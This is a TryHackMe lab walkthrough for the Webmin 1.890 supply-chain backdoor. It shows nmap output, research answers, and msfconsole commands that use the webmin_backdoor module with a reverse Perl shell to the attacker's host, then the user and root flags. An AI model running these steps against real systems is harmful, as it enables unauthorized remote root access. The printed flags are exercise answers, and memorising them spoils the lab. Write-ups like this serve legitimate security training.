

# TryHackMe [AttackerKB](https://tryhackme.com/room/attackerkb)
### References
* DarkSec. (2020). TryHackMe AttackerKB Official Walkthrough [YouTube Video]. In YouTube. https://youtu.be/_BlqBx_iSzQ
* gdft2112. (2019, August 16). Webmin password_change.cgi Command Injection. AttackerKB. https://attackerkb.com/topics/hxx3zmiCkR/webmin-password-change-cgi-command-injection
## Discovering the Lay of the Land
### Scan the machine with `nmap`. What non-standard service can be found running on the high-port?
```bash
$ nmap -sCV -vv <MACHINE_IP>
PORT      STATE SERVICE REASON  VERSION
22/tcp    open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b7:4c:d0:bd:e2:7b:1b:15:72:27:64:56:29:15:ea:23 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDbZAxRhWUij6g6MP11OkGSk7vYHRNyQcTIdMmjj1kSvDhyuXS9QbM5t2qe3UMblyLaObwKJDN++KWfzl1+beOrq3sXkTA4Wot1RyYo0hPdQT0GWBTs63dll2+c4yv3nDiYAwtSsPLCeynPEmSUGDjkVnP12gxXe/qCsM2+rZ9tzXtSWiXgWvaxMZiHaQpT1KaY0z6ebzBTI8siU0t+6SMK7rNv1CsUNpGeicfbC5ZOE4/Nbc8cxNl7gDtZbyjdh9S7KTvzkSj2zBJ+8VbzsuZk1yy8uyLDgmuBQ6LzbYUNHkTQhJetVq7utFpRqLdpSJTcsz5PAxd1Upe9DqoYURuL
|   256 b7:85:23:11:4f:44:fa:22:00:8e:40:77:5e:cf:28:7c (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEYCha8jk+VzcJRRwV41rl8EuJBiy7Cf8xg6tX41bZv0huZdCcCTCq9dLJlzO2V9s+sMp92TpzR5j8NAAuJt0DA=
|   256 a9:fe:4b:82:bf:89:34:59:36:5b:ec:da:c2:d3:95:ce (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOJnY5oycmgw6ND6Mw4y0YQWZiHoKhePo4bylKKCP0E5
10000/tcp open  http    syn-ack MiniServ 1.890 (Webmin httpd)
|_http-favicon: Unknown favicon MD5: 1828141310FC80A46ED0BEB815D89B3E
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
**Answer**: `Webmin`
### Further enumerate this service, what version of it is running?
**Answer**: `1.890`
### After this, view the web page's certificate. What hostname can we find on the cert details?
* According to Chrome's certificate viewer:


**Answer**: `source`
## Learning to Fly
### Which version of Webmin is immediately vulnerable to this exploit?
* According to [`@wvu-r7`](https://attackerkb.com/contributors/wvu-r7):
> This was a supply chain attack: http://www.webmin.com/exploit.html. The backdoor was introduced in a version that was “exploitable” in the default install. Version 1.890 is the money. Anything after requires a non-default setting.
>
> Note that SourceForge installs are affected, but GitHub checkouts aren’t.
>
> ETA: Metasploit added an [exploit module](https://github.com/rapid7/metasploit-framework/pull/12219).

**Answer**: `1.890`
### What type of attack was this?
**Answer**: `supply chain`
### Can you find a link to a post on the Webmin website explaining what happened? What day was Webmin informed of an 0day exploit?
* According to [Webmin's 1.890 warning](https://www.webmin.com/exploit.html):
> * On August 17th 2019, we were informed that a 0-day exploit that made use of the vulnerability had been released. In response, the exploit code was removed and Webmin version 1.930 created and released to all users.

**Answer**: `August 17th 2019`
### We can see in the Assessments that a Metasploit module was added for this backdoor. What pull number was this added in?
**Answer**: `12219`
## Blasting Away
### Beyond `RHOSTS` and `LHOST`, what is the third option we must set to `True`?
```bash
$ msfconsole -q
msf6 > use exploit/linux/http/webmin_backdoor
msf6 exploit(linux/http/webmin_backdoor) > show options
Module options (exploit/linux/http/webmin_backdoor):
   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      10000            yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path to Webmin
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host
Payload options (cmd/unix/reverse_perl):
   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
Exploit target:
   Id  Name
   --  ----
   0   Automatic (Unix In-Memory)
```
**Answer**: `SSL`
### Run the exploit. What is the user flag?
```bash
msf6 exploit(linux/http/webmin_backdoor) > set LHOST tun0 
LHOST => <OPENVPN_IP>
msf6 exploit(linux/http/webmin_backdoor) > set RHOSTS <MACHINE_IP>
RHOSTS => <MACHINE_IP>
msf6 exploit(linux/http/webmin_backdoor) > set SSL true 
SSL => true
msf6 exploit(linux/http/webmin_backdoor) > run
$ find /home -type f -name "user.txt"
/home/dark/user.txt
$ cat /home/dark/user.txt
THM{SUPPLY_CHAIN_COMPROMISE}
```
**User Flag**: `THM{SUPPLY_CHAIN_COMPROMISE}`
### How about the root flag?
```bash
$ find /root -type f -name "root.txt"
/root/root.txt
$ cat /root/root.txt
THM{UPDATE_YOUR_INSTALL}
```
**Root Flag**: `THM{UPDATE_YOUR_INSTALL}`